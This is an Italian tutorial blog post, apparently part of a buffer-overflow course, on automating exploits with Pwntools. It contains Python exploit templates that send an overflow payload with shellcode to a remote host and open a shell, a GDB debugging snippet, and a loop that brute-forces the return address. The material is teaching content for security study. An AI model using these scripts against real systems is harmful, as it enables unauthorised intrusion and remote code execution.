 ```yaml
---
layout: post
title:  "Corso Buffer Overflow: Automazione di Exploit con Pwntools"
date:   2024-09-08 16:00:00 +0200
categories: buffer-overflow
tags: [buffer-overflow, pwntools, exploit, automazione]
---
```


# Corso Buffer Overflow: Automazione di Exploit con Pwntools

Ora che abbiamo visto come sfruttare buffer overflow manualmente e come bypassare protezioni come DEP e ASLR, possiamo procedere ad automatizzare questi exploit. **Pwntools** è una libreria Python potente e facile da usare, pensata appositamente per scrivere exploit in modo rapido ed efficiente.

## 1. Installazione di Pwntools

Prima di iniziare, dovrai installare **Pwntools**. È disponibile tramite **pip**:

```bash
pip install pwntools
```

Pwntools fornisce una serie di funzioni per interagire con processi locali e remoti, inviare payload e molto altro, rendendo lo sviluppo degli exploit molto più fluido.

## 2. Scrivere un Exploit con Pwntools

### Esempio di base

Supponiamo di voler automatizzare un exploit per un programma vulnerabile che abbiamo già esaminato nei precedenti articoli.

```python
from pwn import *

# Imposta il contesto: a quale architettura ci stiamo collegando?
context(arch='i386', os='linux')

# Indirizzo IP e porta del programma vulnerabile
ip = "192.168.1.100"
port = 9999

# Offset per sovrascrivere l'EIP
offset = 524

# Shellcode generato con msfvenom o altro strumento
shellcode = b"ÛÀÙt$ô_º$-F..."

# Indirizzo di ritorno (EIP), da sostituire con l'indirizzo corretto
eip = b"°@ "

# Creazione del payload
payload = b"A" * offset
payload += eip  # Sovrascriviamo l'EIP con l'indirizzo di ritorno
payload += shellcode  # Aggiungiamo il nostro shellcode

# Connessione remota al programma vulnerabile
p = remote(ip, port)

# Invio del payload
p.send(payload)

# Interagire con il processo una volta ottenuta la shell
p.interactive()
```

### Spiegazione del codice:

- **context**: Pwntools permette di impostare il contesto dell'exploit, come architettura e sistema operativo. Questo aiuta nella corretta gestione degli exploit.
- **remote**: Stabilisce una connessione remota con il target. Puoi anche usare `process()` per connetterti a processi locali.
- **payload**: Questo è il nostro exploit, costruito con l'offset per sovrascrivere l'EIP e lo shellcode che eseguiremo.
- **interactive**: Una volta che abbiamo inviato il payload, possiamo interagire con il processo, ad esempio per ottenere una shell remota.

## 3. Debugging con Pwntools

Pwntools include strumenti che facilitano il debugging degli exploit. Puoi usare il modulo **gdb** per eseguire e analizzare il programma in esecuzione con **GDB**.

```python
from pwn import *

# Imposta il contesto
context(arch='i386', os='linux')

# Creazione di un processo locale
p = process("./programma_vulnerabile")

# Debug con GDB
gdb.attach(p, gdbscript="b *main")

# Invio del payload
p.sendline(payload)

# Interazione
p.interactive()
```

Con `gdb.attach`, puoi collegare GDB al processo in esecuzione per osservare il comportamento del programma durante l'exploit.

## 4. Automazione e Cicli per Exploit

Una delle funzionalità più potenti di Pwntools è la possibilità di eseguire exploit in modo ripetitivo o di automatizzare operazioni complesse, come il fuzzing o il brute forcing.

Ecco un esempio di brute forcing per trovare un indirizzo di ritorno corretto:

```python
from pwn import *

# Offset conosciuto
offset = 524

# Ciclo di brute force per trovare l'indirizzo corretto
for eip in range(0x10000000, 0x100000FF):
    try:
        p = remote('192.168.1.100', 9999)

        payload = b"A" * offset
        payload += p32(eip)  # Prova un nuovo EIP
        payload += shellcode

        p.send(payload)
        p.interactive()
    except:
        continue
```

## 5. Esercizio Pratico

- Usa **Pwntools** per automatizzare un exploit che hai già creato in uno degli esercizi precedenti.
- Prova ad aggiungere funzionalità come il brute forcing dell'EIP o il debugging automatico con GDB.

## Conclusione

Automatizzare gli exploit con **Pwntools** rende il processo più efficiente e ti permette di sperimentare diverse tecniche di exploit con maggiore facilità. Nel prossimo articolo ci concentreremo su tecniche avanzate di **post-exploitation** per mantenere l'accesso a una macchina compromessa.

